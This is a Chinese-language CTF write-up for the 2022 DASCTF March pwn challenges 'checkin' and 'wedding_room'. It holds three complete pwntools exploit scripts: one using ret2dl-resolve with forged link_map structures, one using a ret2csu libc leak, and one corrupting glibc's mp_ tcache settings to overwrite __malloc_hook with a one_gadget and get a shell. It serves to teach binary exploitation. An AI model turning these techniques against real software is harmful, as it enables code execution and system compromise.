 ```yaml
---
title: 2022 DASCTFXSU三月春季挑战赛 pwn Writeup
date: 2022-04-20 22:46:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=12/
pin: false
published:
---
```

## checkin(ret2dl)

这道题在[ret2dl利用总结](https://blog.e4l4.com/posts/ret2dl总结/)这篇文章里做了详细分析，这里贴一下2种EXP

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./checkin')
elf = ELF('./checkin')
libc = elf.libc

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rop_addr = 0x404000 + 0x700
pop_rdi_ret = 0x401253
leave_ret= 0x4011e2
main_read = 0x4011bf

def create_fake_link_map_1(fake_addr, known_got, reloc_index, offset):
	target = fake_addr - 8 #the result you write in (any addr)
	fake_link_map = p64(offset & (2**64-1)) #l_addr
	fake_link_map = fake_link_map.ljust(0x30, b'\x00')
	fake_jmprel = p64(target-offset) #r_offset
	fake_jmprel += p64(7) #r_info
	fake_jmprel += p64(0) #r_append
	fake_link_map += fake_jmprel
	fake_link_map += b"/bin/sh\x00"
	fake_link_map = fake_link_map.ljust(0x58, b'\x00')
	return fake_link_map
def create_fake_link_map_2(fake_addr, known_got, reloc_index, offset):
	fake_link_map = p64(0) + p64(leave_ret)
	fake_link_map += p64(fake_addr) #l_info[5] dynstr
	fake_link_map += p64(fake_addr+0x78-8) #l_info[6] dynsym
	fake_link_map += p64(known_got-8) #dynmic symtabg
	fake_link_map += p64(fake_addr+0x30-0x18*reloc_index) #dynmic jmprel
	fake_link_map += b'\x00'*0x70
	return fake_link_map

fake_reloc_arg = 0 # just as one wishes
fake_link_map_addr = rop_addr + 0x48
fake_link_map_1 = create_fake_link_map_1(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])
fake_link_map_2 = create_fake_link_map_2(fake_link_map_addr, elf.got['read'],fake_reloc_arg, libc.sym['system'] - libc.sym['read'])

# 栈迁移
payload= b'\x00'*0xa0 + p64(rop_addr+0xa0) + p64(main_read)
p.send(payload)

payload = p64(pop_rdi_ret) + p64(fake_link_map_addr+0x48)
payload += p64(plt0+6) + p64(fake_link_map_addr) + p64(fake_reloc_arg) +p64(0)*4 + fake_link_map_1
payload += p64(rop_addr+0xa0*2) + p64(main_read)# 0xb0
p.send(payload)

payload = fake_link_map_2 + p64(rop_addr+0xa0*3) + p64(main_read)# 0xb0
p.send(payload)

payload = p64(fake_link_map_addr+0x80-8) + p64(leave_ret) #l_info[23] jmprel
payload = payload.ljust(0xa0, b'\x00')
payload += p64(rop_addr - 0x8) + p64(leave_ret)
p.send(payload)
p.interactive()
```



```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = process("./checkin")
elf =ELF('./checkin')
libc = elf.libc

# gdb.attach(p)
payload = b"a"*0xa0 + p64(0x4040c0+0xa0) + p64(0x4011BF)  #buf = 0x4040c0
p.send(payload)

payload = flat([  #csu
    0x404140,    #no use
    0x40124A,  # pop 6
    0,1,      #rbx rbp
    0x404040, # stdout  r12
    0,0,    # r13 r14
    0x404020,  #r15 setvbuf_got
    0x401230,  # ret 
    0,0,   #+8 rbx
    0x404140, #rbp
    0,0,0,0, #12 13 14 15
    0x4011BF #read = put
    ])
payload = payload.ljust(0xa0,b"\x00") + p64(0x404020+0xa0) + p64(0x4011bf) #read 
p.send(payload)
sleep(0.1)

p.send(b"\x50\xc4")
sleep(0.1)
libc_base = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,"\x00")) -0x1ed6a0

success("libc_base:"+hex(libc_base))

p.send(b"a"*0xa0 +p64(libc_base+0xe3b2e)*2 ) 

p.interactive()
```


## wedding_room(mmap申请堆越界修改)

题目没有free，只有一个add和edit，主要利用申请大小无限制

![image-20220403111614976](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111614976.png)

![image-20220403111647256](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403111647256.png)

泄露libc后，思路是去改mp使tcache引索越界，任意申请需要的堆。mp_+80一开始为0x40

![image-20220403110847336](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403110847336.png)

关于mp\_结构体，glibc的参数管理使用 struct malloc_par，全局拥有一个唯一的 malloc_par实例

```c
struct malloc_par
{
  /* Tunable parameters */
  unsigned long trim_threshold;    /* top chunk 的收缩阈值 */
  INTERNAL_SIZE_T top_pad;         /* 在分配内存时是否添加额外的 pad，默认该字段为 0 */
  INTERNAL_SIZE_T mmap_threshold;  /*  mmap 分配阈值 */
  INTERNAL_SIZE_T arena_test;      /* 当每个进程的分配区数量小于等于 arena_test 时，不会重用已有的分配区 */
  INTERNAL_SIZE_T arena_max;       /* 当系统中的分配区数量达到 arena_max，就不会再创建新的分配区，只会重用已有的分配区 */

  /* Memory map support */
  int n_mmaps;                     /* 当前进程使用 mmap()函数分配的内存块的个数 */
  int n_mmaps_max;                 /* mmap()函数分配的内存块的最大数量 */
  int max_n_mmaps;                 /* mmap()函数分配的内存块的数量的最大值 */
  /* the mmap_threshold is dynamic, until the user sets
     it manually, at which point we need to disable any
     dynamic behavior. */
  int no_dyn_threshold;            /* 否开启 mmap 分配阈值动态调整机制，默认值为 0，即开启 */

  /* Statistics */
  /* mmapped_mem 和 max_mmapped_mem 都用于统计 mmap 分配的内存大小，一般情况下两个字段的值相等 */
  INTERNAL_SIZE_T mmapped_mem;    
  INTERNAL_SIZE_T max_mmapped_mem;

  /* First address handed out by MORECORE/sbrk.  */
  char *sbrk_base;                  /* 堆的起始地址 */

#if USE_TCACHE
  /* Maximum number of buckets to use.  */
  size_t tcache_bins;              /* tcache bins 的数量 */
  size_t tcache_max_bytes;         /* 最大 tache 的大小 */
  /* Maximum number of chunks in each bucket.  */
  size_t tcache_count;             /* 每个 tcache bins 中tcaches 的最大数量 */
  /* Maximum number of chunks to remove from the unsorted list, which
     aren't used to prefill the cache.  */
  size_t tcache_unsorted_limit;
#endif
};
```
这里关于offsetidx的计算纠结了很久，方法就是（目标地址后三位-0x80）/8，再向前移动一位就行

这里(0xab0-0x80)/8=146 即0x1460，所以我们申请0x1450，然后再去布置好counts位

![image-20220403145939733](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403145939733.png)

![image-20220403150002719](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403150002719.png)

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process('./wedding_room')
libc = ELF('./libc-2.31.so')

def add(size, length):
    p.sendlineafter(">> \n", '1')
    p.sendlineafter(">> \n", str(size))
    p.sendlineafter(">> \n", str(length))
def edit(index, content):
    p.sendlineafter(">> \n", '2')
    p.sendlineafter(">> \n", str(index))
    p.sendafter(">> \n", content)
def dbg():
    gdb.attach(p)
    pause()

# 修改stdout->write_ptr指针，让它比write_end小这样就能从end开始泄露
add(0x200000, 0x3ee6b8)
libc.address = u64(p.recvuntil("\x7f", timeout = 1)[-6:].ljust(8, b'\x00')) -0x1ee7e0
success("libc_base:\t" + hex(libc.address))
if (libc.address < 0):
    exit(-1)

# 修改mp结构体里的tcache bins的数量为1314
add(0x200000, 0x5ee2c0)

# 改topchunk大小，把oldtopchunk放入unsortbin，再申请一个largechunk
add(0x800, 0x809)
add(0x14000, 0x666) 
add(0x666, 0x666)
edit(4, p32(libc.sym['__malloc_hook'] & 0xffffff))#伪造mallochook地址
add(0x1450, 0x666)# 申请mallochook
edit(5, p64(libc.address + 0xe3b31))#one_gadget
p.sendlineafter(">> \n", b'1')
p.sendlineafter(">> \n", b'0')
p.interactive()
```

## tcache_struct结构

0x250的tcache_struct和0x290的大致相同，区别在于counts段一个大小占一个字节

![image-20220409223332707](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220409223332707.png)

0x290的tcache_struct

![image-20220403180012397](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220403180012397.png)

mp_的查找方法：

`p &mp_`